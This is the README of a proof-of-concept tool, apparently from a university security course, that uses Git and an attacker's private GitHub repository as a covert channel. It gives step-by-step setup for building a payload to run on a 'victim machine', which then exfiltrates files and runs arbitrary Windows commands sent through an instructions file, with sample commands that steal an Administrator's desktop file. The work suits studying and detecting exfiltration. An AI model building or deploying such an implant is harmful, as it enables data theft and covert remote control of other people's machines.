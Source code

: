 # Git Data Exfiltration

Git is an open source command-line tool used by developers all over the world that allows them to collaborate in groups to modify repositories of code.
With it comes a suite of APIs that enable developers to easily push or pull code from any repository.
However, this also provides attackers a potential tool for the exfiltration of data as they can use Git’s built in functionality to push files to their own repository.
This repository contains a proof-of-concept that explores the use of the Git application to communicate with and exfiltrate data into an attacker's Github repository from a compromised machine.

## Setting Up the Git payload

In order for Git exfiltration to work, we need to set up our own Git repository that we will use to exfiltrate data from and communicate with the compromised host.

1. Create a private Git repository.
1. Create a fine-grained [Personal Access Token](https://docs.github.com/en/authentication/keeping-your-account-and-data-secure/creating-a-personal-access-token) to your repository with `Read and Write access to code`.
1. clone the repository with `git clone https://github.com/AY2223S1-CS5231-11/git-exfiltrate.git`
1. Modify the code in `Client.go`:
    1. Switch the `AUTH.Username` variable with your Github email.
    1. Switch the `AUTH.Password` variable with your created Github Personal Access Token.
    1. Switch the `REPOSITORY` variable with your created Github repository.
1. Commit a file called `instructions`.
    - You may enter commands into the `instructions` file to be executed when the payload is executed.
1. Run `go build` in the `client` directory.
1. Execute the created payload in your victim machine.

## Commands

There are two commands that can be executed in the victim machine.
1. `exfil "<path to file>"`
    - e.g. `exfil "C:\Users\Administrator\Desktop\Secret.txt"`.
1. `cmd <Windows Command Prompt Command>`
    - e.g. `cmd "dir %USERPROFILE%"`
1. Also, comments can be added with the `#` character.
    - e.g. `# This is a comment.`

Commands should be newline seperated and will be executed in sequence from top to bottom.
Your results will be stored in a new branch created by the victim machine. The branch name would be a unique machine ID that was generated by [this](https://github.com/denisbrodbeck/machineid) repository.
- Example `instructions` file:
```
# This is a comment
exfil "C:\Users\Administrator\Desktop\Secret.txt"
cmd "dir %USERPROFILE%"
```

## Results Format

Results are stored with a random string appeneded. This is to prevent results from a new exfiltration or execution from overwrting an older one.

- exfil results will be saved in chunks of `1024` bytes named `<file path><random string><part number>`.
    - The size of the chunks can be modified by changing the `FILE_SIZE` variable.
- command output will be returned as a single file named `<command executed><random string>`.


## Target Requirements

- The target machine must have `git` installed and have access to `https:\\github.com`.
- They can be running any machine but the `cmd` command would only work on Windows machines.


## Possible Improvements

### Supporting more Operating Systems

A simple check can be done for the Operating System before deciding what shell process to spawn. However, due to time limitations and the target system being Windows, the program only supports Windows commands.

### Error Handling

As this is a simple POC, there has been little error handling built in with any error possibly crashing the process. This may include errors such as the file attempting to be exfiltrated not existing. Hence, handling all errors seperately is another possible feature that can be implemented.
